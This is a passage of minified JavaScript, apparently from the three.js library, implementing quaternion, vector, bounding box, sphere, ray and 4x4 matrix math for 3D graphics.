e=s*u+l*d+c*p+h*f,n=e>=0?1:-1,i=1-e*e;if(i>Number.EPSILON){const r=Math.sqrt(i),a=Math.atan2(r,e*n);t=Math.sin(t*a)/r,o=Math.sin(o*a)/r}const r=o*n;if(s=s*t+u*r,l=l*t+d*r,c=c*t+p*r,h=h*t+f*r,t===1-o){const t=1/Math.sqrt(s*s+l*l+c*c+h*h);s*=t,l*=t,c*=t,h*=t}}t[e]=s,t[e+1]=l,t[e+2]=c,t[e+3]=h}static multiplyQuaternionsFlat(t,e,n,i,r,a){const o=n[i],s=n[i+1],l=n[i+2],c=n[i+3],h=r[a],u=r[a+1],d=r[a+2],p=r[a+3];return t[e]=o*p+c*h+s*d-l*u,t[e+1]=s*p+c*u+l*h-o*d,t[e+2]=l*p+c*d+o*u-s*h,t[e+3]=c*p-o*h-s*u-l*d,t}get x(){return this._x}set x(t){this._x=t,this._onChangeCallback()}get y(){return this._y}set y(t){this._y=t,this._onChangeCallback()}get z(){return this._z}set z(t){this._z=t,this._onChangeCallback()}get w(){return this._w}set w(t){this._w=t,this._onChangeCallback()}set(t,e,n,i){return this._x=t,this._y=e,this._z=n,this._w=i,this._onChangeCallback(),this}clone(){return new this.constructor(this._x,this._y,this._z,this._w)}copy(t){return this._x=t.x,this._y=t.y,this._z=t.z,this._w=t.w,this._onChangeCallback(),this}setFromEuler(t,e=!0){const n=t._x,i=t._y,r=t._z,a=t._order,o=Math.cos,s=Math.sin,l=o(n/2),c=o(i/2),h=o(r/2),u=s(n/2),d=s(i/2),p=s(r/2);switch(a){case\"XYZ\":this._x=u*c*h+l*d*p,this._y=l*d*h-u*c*p,this._z=l*c*p+u*d*h,this._w=l*c*h-u*d*p;break;case\"YXZ\":this._x=u*c*h+l*d*p,this._y=l*d*h-u*c*p,this._z=l*c*p-u*d*h,this._w=l*c*h+u*d*p;break;case\"ZXY\":this._x=u*c*h-l*d*p,this._y=l*d*h+u*c*p,this._z=l*c*p+u*d*h,this._w=l*c*h-u*d*p;break;case\"ZYX\":this._x=u*c*h-l*d*p,this._y=l*d*h+u*c*p,this._z=l*c*p-u*d*h,this._w=l*c*h+u*d*p;break;case\"YZX\":this._x=u*c*h+l*d*p,this._y=l*d*h+u*c*p,this._z=l*c*p-u*d*h,this._w=l*c*h-u*d*p;break;case\"XZY\":this._x=u*c*h-l*d*p,this._y=l*d*h-u*c*p,this._z=l*c*p+u*d*h,this._w=l*c*h+u*d*p;break;default:console.warn(\"THREE.Quaternion: .setFromEuler() encountered an unknown order: \"+a)}return!0===e&&this._onChangeCallback(),this}setFromAxisAngle(t,e){const n=e/2,i=Math.sin(n);return this._x=t.x*i,this._y=t.y*i,this._z=t.z*i,this._w=Math.cos(n),this._onChangeCallback(),this}setFromRotationMatrix(t){const e=t.elements,n=e[0],i=e[4],r=e[8],a=e[1],o=e[5],s=e[9],l=e[2],c=e[6],h=e[10],u=n+o+h;if(u>0){const t=.5/Math.sqrt(u+1);this._w=.25/t,this._x=(c-s)*t,this._y=(r-l)*t,this._z=(a-i)*t}else if(n>o&&n>h){const t=2*Math.sqrt(1+n-o-h);this._w=(c-s)/t,this._x=.25*t,this._y=(i+a)/t,this._z=(r+l)/t}else if(o>h){const t=2*Math.sqrt(1+o-n-h);this._w=(r-l)/t,this._x=(i+a)/t,this._y=.25*t,this._z=(s+c)/t}else{const t=2*Math.sqrt(1+h-n-o);this._w=(a-i)/t,this._x=(r+l)/t,this._y=(s+c)/t,this._z=.25*t}return this._onChangeCallback(),this}setFromUnitVectors(t,e){let n=t.dot(e)+1;return n<Number.EPSILON?(n=0,Math.abs(t.x)>Math.abs(t.z)?(this._x=-t.y,this._y=t.x,this._z=0,this._w=n):(this._x=0,this._y=-t.z,this._z=t.y,this._w=n)):(this._x=t.y*e.z-t.z*e.y,this._y=t.z*e.x-t.x*e.z,this._z=t.x*e.y-t.y*e.x,this._w=n),this.normalize()}angleTo(t){return 2*Math.acos(Math.abs(de(this.dot(t),-1,1)))}rotateTowards(t,e){const n=this.angleTo(t);if(0===n)return this;const i=Math.min(1,e/n);return this.slerp(t,i),this}identity(){return this.set(0,0,0,1)}invert(){return this.conjugate()}conjugate(){return this._x*=-1,this._y*=-1,this._z*=-1,this._onChangeCallback(),this}dot(t){return this._x*t._x+this._y*t._y+this._z*t._z+this._w*t._w}lengthSq(){return this._x*this._x+this._y*this._y+this._z*this._z+this._w*this._w}length(){return Math.sqrt(this._x*this._x+this._y*this._y+this._z*this._z+this._w*this._w)}normalize(){let t=this.length();return 0===t?(this._x=0,this._y=0,this._z=0,this._w=1):(t=1/t,this._x=this._x*t,this._y=this._y*t,this._z=this._z*t,this._w=this._w*t),this._onChangeCallback(),this}multiply(t){return this.multiplyQuaternions(this,t)}premultiply(t){return this.multiplyQuaternions(t,this)}multiplyQuaternions(t,e){const n=t._x,i=t._y,r=t._z,a=t._w,o=e._x,s=e._y,l=e._z,c=e._w;return this._x=n*c+a*o+i*l-r*s,this._y=i*c+a*s+r*o-n*l,this._z=r*c+a*l+n*s-i*o,this._w=a*c-n*o-i*s-r*l,this._onChangeCallback(),this}slerp(t,e){if(0===e)return this;if(1===e)return this.copy(t);const n=this._x,i=this._y,r=this._z,a=this._w;let o=a*t._w+n*t._x+i*t._y+r*t._z;if(o<0?(this._w=-t._w,this._x=-t._x,this._y=-t._y,this._z=-t._z,o=-o):this.copy(t),o>=1)return this._w=a,this._x=n,this._y=i,this._z=r,this;const s=1-o*o;if(s<=Number.EPSILON){const t=1-e;return this._w=t*a+e*this._w,this._x=t*n+e*this._x,this._y=t*i+e*this._y,this._z=t*r+e*this._z,this.normalize(),this}const l=Math.sqrt(s),c=Math.atan2(l,o),h=Math.sin((1-e)*c)/l,u=Math.sin(e*c)/l;return this._w=a*h+this._w*u,this._x=n*h+this._x*u,this._y=i*h+this._y*u,this._z=r*h+this._z*u,this._onChangeCallback(),this}slerpQuaternions(t,e,n){return this.copy(t).slerp(e,n)}random(){const t=2*Math.PI*Math.random(),e=2*Math.PI*Math.random(),n=Math.random(),i=Math.sqrt(1-n),r=Math.sqrt(n);return this.set(i*Math.sin(t),i*Math.cos(t),r*Math.sin(e),r*Math.cos(e))}equals(t){return t._x===this._x&&t._y===this._y&&t._z===this._z&&t._w===this._w}fromArray(t,e=0){return this._x=t[e],this._y=t[e+1],this._z=t[e+2],this._w=t[e+3],this._onChangeCallback(),this}toArray(t=[],e=0){return t[e]=this._x,t[e+1]=this._y,t[e+2]=this._z,t[e+3]=this._w,t}fromBufferAttribute(t,e){return this._x=t.getX(e),this._y=t.getY(e),this._z=t.getZ(e),this._w=t.getW(e),this._onChangeCallback(),this}toJSON(){return this.toArray()}_onChange(t){return this._onChangeCallback=t,this}_onChangeCallback(){}*[Symbol.iterator](){yield this._x,yield this._y,yield this._z,yield this._w}}class Xe{constructor(t=0,e=0,n=0){Xe.prototype.isVector3=!0,this.x=t,this.y=e,this.z=n}set(t,e,n){return void 0===n&&(n=this.z),this.x=t,this.y=e,this.z=n,this}setScalar(t){return this.x=t,this.y=t,this.z=t,this}setX(t){return this.x=t,this}setY(t){return this.y=t,this}setZ(t){return this.z=t,this}setComponent(t,e){switch(t){case 0:this.x=e;break;case 1:this.y=e;break;case 2:this.z=e;break;default:throw new Error(\"index is out of range: \"+t)}return this}getComponent(t){switch(t){case 0:return this.x;case 1:return this.y;case 2:return this.z;default:throw new Error(\"index is out of range: \"+t)}}clone(){return new this.constructor(this.x,this.y,this.z)}copy(t){return this.x=t.x,this.y=t.y,this.z=t.z,this}add(t){return this.x+=t.x,this.y+=t.y,this.z+=t.z,this}addScalar(t){return this.x+=t,this.y+=t,this.z+=t,this}addVectors(t,e){return this.x=t.x+e.x,this.y=t.y+e.y,this.z=t.z+e.z,this}addScaledVector(t,e){return this.x+=t.x*e,this.y+=t.y*e,this.z+=t.z*e,this}sub(t){return this.x-=t.x,this.y-=t.y,this.z-=t.z,this}subScalar(t){return this.x-=t,this.y-=t,this.z-=t,this}subVectors(t,e){return this.x=t.x-e.x,this.y=t.y-e.y,this.z=t.z-e.z,this}multiply(t){return this.x*=t.x,this.y*=t.y,this.z*=t.z,this}multiplyScalar(t){return this.x*=t,this.y*=t,this.z*=t,this}multiplyVectors(t,e){return this.x=t.x*e.x,this.y=t.y*e.y,this.z=t.z*e.z,this}applyEuler(t){return this.applyQuaternion(Ye.setFromEuler(t))}applyAxisAngle(t,e){return this.applyQuaternion(Ye.setFromAxisAngle(t,e))}applyMatrix3(t){const e=this.x,n=this.y,i=this.z,r=t.elements;return this.x=r[0]*e+r[3]*n+r[6]*i,this.y=r[1]*e+r[4]*n+r[7]*i,this.z=r[2]*e+r[5]*n+r[8]*i,this}applyNormalMatrix(t){return this.applyMatrix3(t).normalize()}applyMatrix4(t){const e=this.x,n=this.y,i=this.z,r=t.elements,a=1/(r[3]*e+r[7]*n+r[11]*i+r[15]);return this.x=(r[0]*e+r[4]*n+r[8]*i+r[12])*a,this.y=(r[1]*e+r[5]*n+r[9]*i+r[13])*a,this.z=(r[2]*e+r[6]*n+r[10]*i+r[14])*a,this}applyQuaternion(t){const e=this.x,n=this.y,i=this.z,r=t.x,a=t.y,o=t.z,s=t.w,l=2*(a*i-o*n),c=2*(o*e-r*i),h=2*(r*n-a*e);return this.x=e+s*l+a*h-o*c,this.y=n+s*c+o*l-r*h,this.z=i+s*h+r*c-a*l,this}project(t){return this.applyMatrix4(t.matrixWorldInverse).applyMatrix4(t.projectionMatrix)}unproject(t){return this.applyMatrix4(t.projectionMatrixInverse).applyMatrix4(t.matrixWorld)}transformDirection(t){const e=this.x,n=this.y,i=this.z,r=t.elements;return this.x=r[0]*e+r[4]*n+r[8]*i,this.y=r[1]*e+r[5]*n+r[9]*i,this.z=r[2]*e+r[6]*n+r[10]*i,this.normalize()}divide(t){return this.x/=t.x,this.y/=t.y,this.z/=t.z,this}divideScalar(t){return this.multiplyScalar(1/t)}min(t){return this.x=Math.min(this.x,t.x),this.y=Math.min(this.y,t.y),this.z=Math.min(this.z,t.z),this}max(t){return this.x=Math.max(this.x,t.x),this.y=Math.max(this.y,t.y),this.z=Math.max(this.z,t.z),this}clamp(t,e){return this.x=Math.max(t.x,Math.min(e.x,this.x)),this.y=Math.max(t.y,Math.min(e.y,this.y)),this.z=Math.max(t.z,Math.min(e.z,this.z)),this}clampScalar(t,e){return this.x=Math.max(t,Math.min(e,this.x)),this.y=Math.max(t,Math.min(e,this.y)),this.z=Math.max(t,Math.min(e,this.z)),this}clampLength(t,e){const n=this.length();return this.divideScalar(n||1).multiplyScalar(Math.max(t,Math.min(e,n)))}floor(){return this.x=Math.floor(this.x),this.y=Math.floor(this.y),this.z=Math.floor(this.z),this}ceil(){return this.x=Math.ceil(this.x),this.y=Math.ceil(this.y),this.z=Math.ceil(this.z),this}round(){return this.x=Math.round(this.x),this.y=Math.round(this.y),this.z=Math.round(this.z),this}roundToZero(){return this.x=Math.trunc(this.x),this.y=Math.trunc(this.y),this.z=Math.trunc(this.z),this}negate(){return this.x=-this.x,this.y=-this.y,this.z=-this.z,this}dot(t){return this.x*t.x+this.y*t.y+this.z*t.z}lengthSq(){return this.x*this.x+this.y*this.y+this.z*this.z}length(){return Math.sqrt(this.x*this.x+this.y*this.y+this.z*this.z)}manhattanLength(){return Math.abs(this.x)+Math.abs(this.y)+Math.abs(this.z)}normalize(){return this.divideScalar(this.length()||1)}setLength(t){return this.normalize().multiplyScalar(t)}lerp(t,e){return this.x+=(t.x-this.x)*e,this.y+=(t.y-this.y)*e,this.z+=(t.z-this.z)*e,this}lerpVectors(t,e,n){return this.x=t.x+(e.x-t.x)*n,this.y=t.y+(e.y-t.y)*n,this.z=t.z+(e.z-t.z)*n,this}cross(t){return this.crossVectors(this,t)}crossVectors(t,e){const n=t.x,i=t.y,r=t.z,a=e.x,o=e.y,s=e.z;return this.x=i*s-r*o,this.y=r*a-n*s,this.z=n*o-i*a,this}projectOnVector(t){const e=t.lengthSq();if(0===e)return this.set(0,0,0);const n=t.dot(this)/e;return this.copy(t).multiplyScalar(n)}projectOnPlane(t){return qe.copy(this).projectOnVector(t),this.sub(qe)}reflect(t){return this.sub(qe.copy(t).multiplyScalar(2*this.dot(t)))}angleTo(t){const e=Math.sqrt(this.lengthSq()*t.lengthSq());if(0===e)return Math.PI/2;const n=this.dot(t)/e;return Math.acos(de(n,-1,1))}distanceTo(t){return Math.sqrt(this.distanceToSquared(t))}distanceToSquared(t){const e=this.x-t.x,n=this.y-t.y,i=this.z-t.z;return e*e+n*n+i*i}manhattanDistanceTo(t){return Math.abs(this.x-t.x)+Math.abs(this.y-t.y)+Math.abs(this.z-t.z)}setFromSpherical(t){return this.setFromSphericalCoords(t.radius,t.phi,t.theta)}setFromSphericalCoords(t,e,n){const i=Math.sin(e)*t;return this.x=i*Math.sin(n),this.y=Math.cos(e)*t,this.z=i*Math.cos(n),this}setFromCylindrical(t){return this.setFromCylindricalCoords(t.radius,t.theta,t.y)}setFromCylindricalCoords(t,e,n){return this.x=t*Math.sin(e),this.y=n,this.z=t*Math.cos(e),this}setFromMatrixPosition(t){const e=t.elements;return this.x=e[12],this.y=e[13],this.z=e[14],this}setFromMatrixScale(t){const e=this.setFromMatrixColumn(t,0).length(),n=this.setFromMatrixColumn(t,1).length(),i=this.setFromMatrixColumn(t,2).length();return this.x=e,this.y=n,this.z=i,this}setFromMatrixColumn(t,e){return this.fromArray(t.elements,4*e)}setFromMatrix3Column(t,e){return this.fromArray(t.elements,3*e)}setFromEuler(t){return this.x=t._x,this.y=t._y,this.z=t._z,this}setFromColor(t){return this.x=t.r,this.y=t.g,this.z=t.b,this}equals(t){return t.x===this.x&&t.y===this.y&&t.z===this.z}fromArray(t,e=0){return this.x=t[e],this.y=t[e+1],this.z=t[e+2],this}toArray(t=[],e=0){return t[e]=this.x,t[e+1]=this.y,t[e+2]=this.z,t}fromBufferAttribute(t,e){return this.x=t.getX(e),this.y=t.getY(e),this.z=t.getZ(e),this}random(){return this.x=Math.random(),this.y=Math.random(),this.z=Math.random(),this}randomDirection(){const t=Math.random()*Math.PI*2,e=2*Math.random()-1,n=Math.sqrt(1-e*e);return this.x=n*Math.cos(t),this.y=e,this.z=n*Math.sin(t),this}*[Symbol.iterator](){yield this.x,yield this.y,yield this.z}}const qe=new Xe,Ye=new We;class Ke{constructor(t=new Xe(1/0,1/0,1/0),e=new Xe(-1/0,-1/0,-1/0)){this.isBox3=!0,this.min=t,this.max=e}set(t,e){return this.min.copy(t),this.max.copy(e),this}setFromArray(t){this.makeEmpty();for(let e=0,n=t.length;e<n;e+=3)this.expandByPoint($e.fromArray(t,e));return this}setFromBufferAttribute(t){this.makeEmpty();for(let e=0,n=t.count;e<n;e++)this.expandByPoint($e.fromBufferAttribute(t,e));return this}setFromPoints(t){this.makeEmpty();for(let e=0,n=t.length;e<n;e++)this.expandByPoint(t[e]);return this}setFromCenterAndSize(t,e){const n=$e.copy(e).multiplyScalar(.5);return this.min.copy(t).sub(n),this.max.copy(t).add(n),this}setFromObject(t,e=!1){return this.makeEmpty(),this.expandByObject(t,e)}clone(){return(new this.constructor).copy(this)}copy(t){return this.min.copy(t.min),this.max.copy(t.max),this}makeEmpty(){return this.min.x=this.min.y=this.min.z=1/0,this.max.x=this.max.y=this.max.z=-1/0,this}isEmpty(){return this.max.x<this.min.x||this.max.y<this.min.y||this.max.z<this.min.z}getCenter(t){return this.isEmpty()?t.set(0,0,0):t.addVectors(this.min,this.max).multiplyScalar(.5)}getSize(t){return this.isEmpty()?t.set(0,0,0):t.subVectors(this.max,this.min)}expandByPoint(t){return this.min.min(t),this.max.max(t),this}expandByVector(t){return this.min.sub(t),this.max.add(t),this}expandByScalar(t){return this.min.addScalar(-t),this.max.addScalar(t),this}expandByObject(t,e=!1){t.updateWorldMatrix(!1,!1);const n=t.geometry;if(void 0!==n){const i=n.getAttribute(\"position\");if(!0===e&&void 0!==i&&!0!==t.isInstancedMesh)for(let e=0,n=i.count;e<n;e++)!0===t.isMesh?t.getVertexPosition(e,$e):$e.fromBufferAttribute(i,e),$e.applyMatrix4(t.matrixWorld),this.expandByPoint($e);else void 0!==t.boundingBox?(null===t.boundingBox&&t.computeBoundingBox(),Je.copy(t.boundingBox)):(null===n.boundingBox&&n.computeBoundingBox(),Je.copy(n.boundingBox)),Je.applyMatrix4(t.matrixWorld),this.union(Je)}const i=t.children;for(let t=0,n=i.length;t<n;t++)this.expandByObject(i[t],e);return this}containsPoint(t){return t.x>=this.min.x&&t.x<=this.max.x&&t.y>=this.min.y&&t.y<=this.max.y&&t.z>=this.min.z&&t.z<=this.max.z}containsBox(t){return this.min.x<=t.min.x&&t.max.x<=this.max.x&&this.min.y<=t.min.y&&t.max.y<=this.max.y&&this.min.z<=t.min.z&&t.max.z<=this.max.z}getParameter(t,e){return e.set((t.x-this.min.x)/(this.max.x-this.min.x),(t.y-this.min.y)/(this.max.y-this.min.y),(t.z-this.min.z)/(this.max.z-this.min.z))}intersectsBox(t){return t.max.x>=this.min.x&&t.min.x<=this.max.x&&t.max.y>=this.min.y&&t.min.y<=this.max.y&&t.max.z>=this.min.z&&t.min.z<=this.max.z}intersectsSphere(t){return this.clampPoint(t.center,$e),$e.distanceToSquared(t.center)<=t.radius*t.radius}intersectsPlane(t){let e,n;return t.normal.x>0?(e=t.normal.x*this.min.x,n=t.normal.x*this.max.x):(e=t.normal.x*this.max.x,n=t.normal.x*this.min.x),t.normal.y>0?(e+=t.normal.y*this.min.y,n+=t.normal.y*this.max.y):(e+=t.normal.y*this.max.y,n+=t.normal.y*this.min.y),t.normal.z>0?(e+=t.normal.z*this.min.z,n+=t.normal.z*this.max.z):(e+=t.normal.z*this.max.z,n+=t.normal.z*this.min.z),e<=-t.constant&&n>=-t.constant}intersectsTriangle(t){if(this.isEmpty())return!1;this.getCenter(on),sn.subVectors(this.max,on),Qe.subVectors(t.a,on),tn.subVectors(t.b,on),en.subVectors(t.c,on),nn.subVectors(tn,Qe),rn.subVectors(en,tn),an.subVectors(Qe,en);let e=[0,-nn.z,nn.y,0,-rn.z,rn.y,0,-an.z,an.y,nn.z,0,-nn.x,rn.z,0,-rn.x,an.z,0,-an.x,-nn.y,nn.x,0,-rn.y,rn.x,0,-an.y,an.x,0];return!!hn(e,Qe,tn,en,sn)&&(e=[1,0,0,0,1,0,0,0,1],!!hn(e,Qe,tn,en,sn)&&(ln.crossVectors(nn,rn),e=[ln.x,ln.y,ln.z],hn(e,Qe,tn,en,sn)))}clampPoint(t,e){return e.copy(t).clamp(this.min,this.max)}distanceToPoint(t){return this.clampPoint(t,$e).distanceTo(t)}getBoundingSphere(t){return this.isEmpty()?t.makeEmpty():(this.getCenter(t.center),t.radius=.5*this.getSize($e).length()),t}intersect(t){return this.min.max(t.min),this.max.min(t.max),this.isEmpty()&&this.makeEmpty(),this}union(t){return this.min.min(t.min),this.max.max(t.max),this}applyMatrix4(t){return this.isEmpty()||(Ze[0].set(this.min.x,this.min.y,this.min.z).applyMatrix4(t),Ze[1].set(this.min.x,this.min.y,this.max.z).applyMatrix4(t),Ze[2].set(this.min.x,this.max.y,this.min.z).applyMatrix4(t),Ze[3].set(this.min.x,this.max.y,this.max.z).applyMatrix4(t),Ze[4].set(this.max.x,this.min.y,this.min.z).applyMatrix4(t),Ze[5].set(this.max.x,this.min.y,this.max.z).applyMatrix4(t),Ze[6].set(this.max.x,this.max.y,this.min.z).applyMatrix4(t),Ze[7].set(this.max.x,this.max.y,this.max.z).applyMatrix4(t),this.setFromPoints(Ze)),this}translate(t){return this.min.add(t),this.max.add(t),this}equals(t){return t.min.equals(this.min)&&t.max.equals(this.max)}}const Ze=[new Xe,new Xe,new Xe,new Xe,new Xe,new Xe,new Xe,new Xe],$e=new Xe,Je=new Ke,Qe=new Xe,tn=new Xe,en=new Xe,nn=new Xe,rn=new Xe,an=new Xe,on=new Xe,sn=new Xe,ln=new Xe,cn=new Xe;function hn(t,e,n,i,r){for(let a=0,o=t.length-3;a<=o;a+=3){cn.fromArray(t,a);const o=r.x*Math.abs(cn.x)+r.y*Math.abs(cn.y)+r.z*Math.abs(cn.z),s=e.dot(cn),l=n.dot(cn),c=i.dot(cn);if(Math.max(-Math.max(s,l,c),Math.min(s,l,c))>o)return!1}return!0}const un=new Ke,dn=new Xe,pn=new Xe;class fn{constructor(t=new Xe,e=-1){this.isSphere=!0,this.center=t,this.radius=e}set(t,e){return this.center.copy(t),this.radius=e,this}setFromPoints(t,e){const n=this.center;void 0!==e?n.copy(e):un.setFromPoints(t).getCenter(n);let i=0;for(let e=0,r=t.length;e<r;e++)i=Math.max(i,n.distanceToSquared(t[e]));return this.radius=Math.sqrt(i),this}copy(t){return this.center.copy(t.center),this.radius=t.radius,this}isEmpty(){return this.radius<0}makeEmpty(){return this.center.set(0,0,0),this.radius=-1,this}containsPoint(t){return t.distanceToSquared(this.center)<=this.radius*this.radius}distanceToPoint(t){return t.distanceTo(this.center)-this.radius}intersectsSphere(t){const e=this.radius+t.radius;return t.center.distanceToSquared(this.center)<=e*e}intersectsBox(t){return t.intersectsSphere(this)}intersectsPlane(t){return Math.abs(t.distanceToPoint(this.center))<=this.radius}clampPoint(t,e){const n=this.center.distanceToSquared(t);return e.copy(t),n>this.radius*this.radius&&(e.sub(this.center).normalize(),e.multiplyScalar(this.radius).add(this.center)),e}getBoundingBox(t){return this.isEmpty()?(t.makeEmpty(),t):(t.set(this.center,this.center),t.expandByScalar(this.radius),t)}applyMatrix4(t){return this.center.applyMatrix4(t),this.radius=this.radius*t.getMaxScaleOnAxis(),this}translate(t){return this.center.add(t),this}expandByPoint(t){if(this.isEmpty())return this.center.copy(t),this.radius=0,this;dn.subVectors(t,this.center);const e=dn.lengthSq();if(e>this.radius*this.radius){const t=Math.sqrt(e),n=.5*(t-this.radius);this.center.addScaledVector(dn,n/t),this.radius+=n}return this}union(t){return t.isEmpty()?this:this.isEmpty()?(this.copy(t),this):(!0===this.center.equals(t.center)?this.radius=Math.max(this.radius,t.radius):(pn.subVectors(t.center,this.center).setLength(t.radius),this.expandByPoint(dn.copy(t.center).add(pn)),this.expandByPoint(dn.copy(t.center).sub(pn))),this)}equals(t){return t.center.equals(this.center)&&t.radius===this.radius}clone(){return(new this.constructor).copy(this)}}const mn=new Xe,gn=new Xe,_n=new Xe,vn=new Xe,yn=new Xe,xn=new Xe,bn=new Xe;class Mn{constructor(t=new Xe,e=new Xe(0,0,-1)){this.origin=t,this.direction=e}set(t,e){return this.origin.copy(t),this.direction.copy(e),this}copy(t){return this.origin.copy(t.origin),this.direction.copy(t.direction),this}at(t,e){return e.copy(this.origin).addScaledVector(this.direction,t)}lookAt(t){return this.direction.copy(t).sub(this.origin).normalize(),this}recast(t){return this.origin.copy(this.at(t,mn)),this}closestPointToPoint(t,e){e.subVectors(t,this.origin);const n=e.dot(this.direction);return n<0?e.copy(this.origin):e.copy(this.origin).addScaledVector(this.direction,n)}distanceToPoint(t){return Math.sqrt(this.distanceSqToPoint(t))}distanceSqToPoint(t){const e=mn.subVectors(t,this.origin).dot(this.direction);return e<0?this.origin.distanceToSquared(t):(mn.copy(this.origin).addScaledVector(this.direction,e),mn.distanceToSquared(t))}distanceSqToSegment(t,e,n,i){gn.copy(t).add(e).multiplyScalar(.5),_n.copy(e).sub(t).normalize(),vn.copy(this.origin).sub(gn);const r=.5*t.distanceTo(e),a=-this.direction.dot(_n),o=vn.dot(this.direction),s=-vn.dot(_n),l=vn.lengthSq(),c=Math.abs(1-a*a);let h,u,d,p;if(c>0)if(h=a*s-o,u=a*o-s,p=r*c,h>=0)if(u>=-p)if(u<=p){const t=1/c;h*=t,u*=t,d=h*(h+a*u+2*o)+u*(a*h+u+2*s)+l}else u=r,h=Math.max(0,-(a*u+o)),d=-h*h+u*(u+2*s)+l;else u=-r,h=Math.max(0,-(a*u+o)),d=-h*h+u*(u+2*s)+l;else u<=-p?(h=Math.max(0,-(-a*r+o)),u=h>0?-r:Math.min(Math.max(-r,-s),r),d=-h*h+u*(u+2*s)+l):u<=p?(h=0,u=Math.min(Math.max(-r,-s),r),d=u*(u+2*s)+l):(h=Math.max(0,-(a*r+o)),u=h>0?r:Math.min(Math.max(-r,-s),r),d=-h*h+u*(u+2*s)+l);else u=a>0?-r:r,h=Math.max(0,-(a*u+o)),d=-h*h+u*(u+2*s)+l;return n&&n.copy(this.origin).addScaledVector(this.direction,h),i&&i.copy(gn).addScaledVector(_n,u),d}intersectSphere(t,e){mn.subVectors(t.center,this.origin);const n=mn.dot(this.direction),i=mn.dot(mn)-n*n,r=t.radius*t.radius;if(i>r)return null;const a=Math.sqrt(r-i),o=n-a,s=n+a;return s<0?null:o<0?this.at(s,e):this.at(o,e)}intersectsSphere(t){return this.distanceSqToPoint(t.center)<=t.radius*t.radius}distanceToPlane(t){const e=t.normal.dot(this.direction);if(0===e)return 0===t.distanceToPoint(this.origin)?0:null;const n=-(this.origin.dot(t.normal)+t.constant)/e;return n>=0?n:null}intersectPlane(t,e){const n=this.distanceToPlane(t);return null===n?null:this.at(n,e)}intersectsPlane(t){const e=t.distanceToPoint(this.origin);if(0===e)return!0;return t.normal.dot(this.direction)*e<0}intersectBox(t,e){let n,i,r,a,o,s;const l=1/this.direction.x,c=1/this.direction.y,h=1/this.direction.z,u=this.origin;return l>=0?(n=(t.min.x-u.x)*l,i=(t.max.x-u.x)*l):(n=(t.max.x-u.x)*l,i=(t.min.x-u.x)*l),c>=0?(r=(t.min.y-u.y)*c,a=(t.max.y-u.y)*c):(r=(t.max.y-u.y)*c,a=(t.min.y-u.y)*c),n>a||r>i?null:((r>n||isNaN(n))&&(n=r),(a<i||isNaN(i))&&(i=a),h>=0?(o=(t.min.z-u.z)*h,s=(t.max.z-u.z)*h):(o=(t.max.z-u.z)*h,s=(t.min.z-u.z)*h),n>s||o>i?null:((o>n||n!=n)&&(n=o),(s<i||i!=i)&&(i=s),i<0?null:this.at(n>=0?n:i,e)))}intersectsBox(t){return null!==this.intersectBox(t,mn)}intersectTriangle(t,e,n,i,r){yn.subVectors(e,t),xn.subVectors(n,t),bn.crossVectors(yn,xn);let a,o=this.direction.dot(bn);if(o>0){if(i)return null;a=1}else{if(!(o<0))return null;a=-1,o=-o}vn.subVectors(this.origin,t);const s=a*this.direction.dot(xn.crossVectors(vn,xn));if(s<0)return null;const l=a*this.direction.dot(yn.cross(vn));if(l<0)return null;if(s+l>o)return null;const c=-a*vn.dot(bn);return c<0?null:this.at(c/o,r)}applyMatrix4(t){return this.origin.applyMatrix4(t),this.direction.transformDirection(t),this}equals(t){return t.origin.equals(this.origin)&&t.direction.equals(this.direction)}clone(){return(new this.constructor).copy(this)}}class Sn{constructor(t,e,n,i,r,a,o,s,l,c,h,u,d,p,f,m){Sn.prototype.isMatrix4=!0,this.elements=[1,0,0,0,0,1,0,0,0,0,1,0,0,0,0,1],void 0!==t&&this.set(t,e,n,i,r,a,o,s,l,c,h,u,d,p,f,m)}set(t,e,n,i,r,a,o,s,l,c,h,u,d,p,f,m){const g=this.elements;return g[0]=t,g[4]=e,g[8]=n,g[12]=i,g[1]=r,g[5]=a,g[9]=o,g[13]=s,g[2]=l,g[6]=c,g[10]=h,g[14]=u,g[3]=d,g[7]=p,g[11]=f,g[15]=m,this}identity(){return this.set(1,0,0,0,0,1,0,0,0,0,1,0,0,0,0,1),this}clone(){return(new Sn).fromArray(this.elements)}copy(t){const e=this.elements,n=t.elements;return e[0]=n[0],e[1]=n[1],e[2]=n[2],e[3]=n[3],e[4]=n[4],e[5]=n[5],e[6]=n[6],e[7]=n[7],e[8]=n[8],e[9]=n[9],e[10]=n[10],e[11]=n[11],e[12]=n[12],e[13]=n[13],e[14]=n[14],e[15]=n[15],this}copyPosition(t){const e=this.elements,n=t.elements;return e[12]=n[12],e[13]=n[13],e[14]=n[14],this}setFromMatrix3(t){const e=t.elements;return this.set(e[0],e[3],e[6],0,e[1],e[4],e[7],0,e[2],e[5],e[8],0,0,0,0,1),this}extractBasis(t,e,n){return t.setFromMatrixColumn(this,0),e.setFromMatrixColumn(this,1),n.setFromMatrixColumn(this,2),this}makeBasis(t,e,n){return this.set(t.x,e.x,n.x,0,t.y,e.y,n.y,0,t.z,e.z,n.z,0,0,0,0,1),this}extractRotation(t){const e=this.elements,n=t.elements,i=1/En.setFromMatrixColumn(t,0).length(),r=1/En.setFromMatrixColumn(t,1).length(),a=1/En.setFromMatrixColumn(t,2).length();return e[0]=n[0]*i,e[1]=n[1]*i,e[2]=n[2]*i,e[3]=0,e[4]=n[4]*r,e[5]=n[5]*r,e[6]=n[6]*r,e[7]=0,e[8]=n[8]*a,e[9]=n[9]*a,e[10]=n[10]*a,e[11]=0,e[12]=0,e[13]=0,e[14]=0,e[15]=1,this}makeRotationFromEuler(t){const e=this.elements,n=t.x,i=t.y,r=t.z,a=Math.cos(n),o=Math.sin(n),s=Math.cos(i),l=Math.sin(i),c=Math.cos(r),h=Math.sin(r);if(\"XYZ\"===t.order){const t=a*c,n=a*h,i=o*c,r=o*h;e[0]=s*c,e[4]=-s*h,e[8]=l,e[1]=n+i*l,e[5]=t-r*l,e[9]=-o*s,e[2]=r-t*l,e[6]=i+n*l,e[10]=a*s}else if(\"YXZ\"===t.order){const t=s*c,n=s*h,i=l*c,r=l*h;e[0]=t+r*o,e[4]=i*o-n,e[8]=a*l,e[1]=a*h,e[5]=a*c,e[9]=-o,e[2]=n*o-i,e[6]=r+t*o,e[10]=a*s}else if(\"ZXY\"===t.order){const t=s*c,n=s*h,i=l*c,r=l*h;e[0]=t-r*o,e[4]=-a*h,e[8]=i+n*o,e[1]=n+i*o,e[5]=a*c,e[9]=r-t*o,e[2]=-a*l,e[6]=o,e[10]=a*s}else 